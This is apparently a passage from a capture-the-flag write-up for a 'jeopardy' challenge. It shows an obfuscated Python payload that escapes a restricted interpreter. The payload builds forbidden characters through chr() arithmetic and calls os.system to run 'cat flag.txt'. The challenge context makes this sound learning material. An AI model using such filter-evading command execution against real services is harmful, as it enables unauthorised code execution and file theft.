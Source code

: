 ![list dir](/assets/img/umass/jeopardy/ls.png)

And a minor adjustment to issue the `cat flag.txt` command.

```python
exec(chr(ord('o')+1) + 'rint(__bui' + chr(ord('i')+1+1+1)+ 'tins__.__dict__' + chr(ord(':')+11+11+11) + ''''__im''' + chr(ord('o')+1) + 'ort__' + chr(ord('%')+1+1) + chr(ord('<')+11+11+11) + '''('os').__dict__''' + chr(ord(':')+11+11+11) + ''''system''' + chr(ord('%')+1+1) + chr(ord('<')+11+11+11) + '(' + chr(ord('%')+1+1) + 'cat f' + chr(ord('i')+1+1+1) + 'ag.txt' + chr(ord('%')+1+1) + '))')
```

![cat flag.txt](/assets/img/umass/jeopardy/flag.png)
